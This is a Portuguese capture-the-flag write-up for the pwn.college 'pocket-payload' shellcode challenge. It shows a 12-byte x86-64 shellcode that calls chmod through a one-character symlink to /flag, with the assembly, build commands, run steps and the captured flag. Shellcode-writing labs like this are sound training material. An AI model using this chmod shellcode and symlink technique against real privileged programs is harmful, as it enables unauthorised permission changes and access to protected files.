




# pwn.college — Pocket Payload (Shellcode Writing)
### Program Security · Shellcode Writing · 12-Byte Shellcode Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** Shellcode size optimization · Symbolic link abuse · `chmod` privilege escalation via shellcode · `push`/`pop` register transfer to avoid REX.W · Minimal permission bitmask to save bytes · Stack-based string construction

---

## Descrição do Desafio

O desafio `pocket-payload` limita o shellcode a **12 bytes**. O ambiente segue o padrão da trilha: variáveis sanitizadas, file descriptors fechados, EUID modificado. O objetivo é ler o `/flag`.

> **Contexto:** Este desafio foi resolvido antes do [micro-menace](micro-menace.md), quando a técnica de staged shellcode via `read()` ainda não havia sido considerada. A abordagem foi otimizar ao máximo o shellcode de `chmod` do desafio [byte-budget](byte-budget.md).

---

## Ponto de Partida — shellcode1 (17 bytes)

O shellcode de partida foi o `shellcode1` do desafio [byte-budget](byte-budget.md), com **17 bytes**:



```asm
_start:
    push 0x67616c66     # "flag" na stack — 5 bytes
    mov rdi, rsp        # rdi aponta para "flag" — 3 bytes
    push 0x5a           # push 90 — 2 bytes
    pop rax             # rax = 90 (chmod) — 1 byte
    mov si, 0x1ff       # rsi = 0o777 — 4 bytes
    syscall             # — 2 bytes
```

Com 17 bytes, era necessário cortar **5 bytes** para chegar ao limite de 12. Duas otimizações foram identificadas.

---

## Otimização 1 — Symlink para Reduzir o Nome do Arquivo

O maior custo individual era a string `flag` na stack — construída com `push 0x67616c66` (5 bytes). A string tem 4 caracteres, mas em little-endian ocupa 4 bytes de dados mais 1 byte de opcode do `push`.

A ideia foi criar um **symlink com nome de apenas 1 caractere** apontando para `/flag`:

```bash
ln -s /flag f
```



Com o symlink `f` criado no diretório atual, o shellcode pode chamar `chmod("f", mode)` em vez de `chmod("/flag", mode)`. A string `f` em ASCII é `0x66` — cabe em um único `push imm8` de **2 bytes** (`6a 66`), economizando **3 bytes** em relação ao `push 0x67616c66`.

Além disso, `mov rdi, rsp` (3 bytes) foi substituído por `push rsp` + `pop rdi` (2 bytes) — economizando mais **1 byte**.

---

## Otimização 2 — Permissão Mínima com `push 0x7`

O `mov si, 0x1ff` (`0o777`) gerava **4 bytes** (`66 be ff 01`). Para o objetivo — permitir que o usuário comum leia o arquivo — basta conceder permissão de leitura para **others** (`0o004`). Mas `push 0x7` + `pop rsi` (`0o007` = `rwx` para others) resolve com apenas **3 bytes** (`6a 07 5e`), economizando **1 byte** em relação ao `mov si`.

O valor `0x7` (`rwx` para others) dá permissão de leitura ao usuário comum e gera menos bytes que qualquer outra combinação que inclua o bit de leitura para others.

---

## O Shellcode Final — shellcode4 (12 bytes)



```asm
.global _start
.intel_syntax noprefix

_start:
    push 0x66           # "f\0" na stack (symlink) — 2 bytes
    push rsp            # endereço de "f" na stack — 1 byte
    pop rdi             # rdi aponta para "f" — 1 byte
    push 0x5a           # push 90 — 2 bytes
    pop rax             # rax = 90 (chmod) — 1 byte
    push 0x7            # push 0o007 — 2 bytes
    pop rsi             # rsi = 0o007 (rwx para others) — 1 byte
    syscall             # chmod("f", 0o007) — 2 bytes
```

Total: **12 bytes exatos** ✅

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode4.s -o shellcode4.elf
objcopy --dump-section .text=shellcode4.raw shellcode4.elf
```

---

## Execução e Resultado Final

```bash
ln -s /flag f
cat shellcode4.raw | /challenge/pocket-payload
cat f
```



O `chmod` alterou as permissões do `/flag` via symlink `f` — o segfault ocorreu novamente pela ausência de `exit`, mas o `chmod` já havia sido aplicado. O `cat f` como usuário comum funcionou:

```
-------rwx 1 root root 58 May 2 14:08 /flag
pwn.college{09xNUIYXgVMRP9F6VgZtT2nRdH0.dljMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. shellcode1 (17 bytes) → ponto de partida, 5 bytes acima do limite
2. Symlink f → /flag: push "flag" (5 bytes) → push "f" + push rsp + pop rdi (4 bytes) → -3 bytes
3. push rsp + pop rdi substitui mov rdi, rsp → -1 byte adicional
4. push 0x7 + pop rsi substitui mov si, 0x1ff → -1 byte
5. shellcode4 (12 bytes) → chmod("f", 0o007) via symlink → cat f → flag obtida
```

---

## Evolução das Otimizações

| Instrução original | Bytes | Substituição | Bytes | Economia |
|---|---|---|---|---|
| `push 0x67616c66` | 5 | `push 0x66` (symlink `f`) | 2 | −3 |
| `mov rdi, rsp` | 3 | `push rsp` + `pop rdi` | 2 | −1 |
| `mov si, 0x1ff` | 4 | `push 0x7` + `pop rsi` | 3 | −1 |
| **Total** | **17** | | **12** | **−5** |
